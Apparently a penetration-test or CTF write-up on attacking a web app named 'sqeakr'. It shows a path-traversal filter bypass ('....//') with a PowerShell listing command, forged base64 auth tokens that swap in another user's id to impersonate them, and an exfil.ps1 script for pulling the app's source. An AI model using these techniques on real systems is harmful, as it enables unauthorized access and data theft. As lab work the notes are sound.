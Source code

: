 notes

See avatars-endpoint-wordlist  
There is an lfi in place on /api/avatars/  
The filter can be bypassed by using ...//  
In fact it seems like it looks for '../' in a the parameter and removes it.  
Through this we have  directory listing on the entire application directory  

We can list directorys by using:
```powershell
iwr -uri http://sqeakr/api/avatars/....// | select content
```


We have a partial auth by manipulating the auth token supplied in the response to a login attempt on /api/login  
The authToken on a unsuccessful login attempt is:  
```
gAN9cQAoWAQAAABhdXRocQFLAFgGAAAAdXNlcmlkcQJYJAAAADAwMDAwMDAwLTAwMDAtNDAwMC04MDAwLTAwMDAwMDAwMDAwMHEDdS4=
```
We can change the id portion to a known user(in this case tomjones):  
```
gAN9cQAoWAQAAABhdXRocQFLAFgGAAAAdXNlcmlkcQJYJAAAADMxZGE4YmExLWNlMGEtNDVmZC05YzcyLTU1NDc3YTFkM2Y2OHEDdS4i
```
We can get users id's from: /api/sqeaks

the authtoken and account set in local storage


Not sure why but today it worked fine with tom jones. We can view his profile etc
Here is the auth token to set in local storage(I had a space in the first attempt):
```
gAN9cQAoWAQAAABhdXRocQFLAFgGAAAAdXNlcmlkcQJYJAAAADMxZGE4YmExLWNlMGEtNDVmZC05YzcyLTU1NDc3YTFkM2Y2OHEDdS4i
``
the preview api function takes the base64encoded filename as a parementer

With the Directory listing on /api/avatars & the lfi on /api/profile/preview we can effectively turn this from a blackbox type test to a whitebox test.  
We can exfil the entire project with exfil.ps1.  
Grab the project root:  
```powershell
./exfil.ps1
```
Grab a specific Folder:  
```powershell
./exfil.ps1 -OutputDir ./sqeakr-exfil/api -BaseFolder '....//api'
```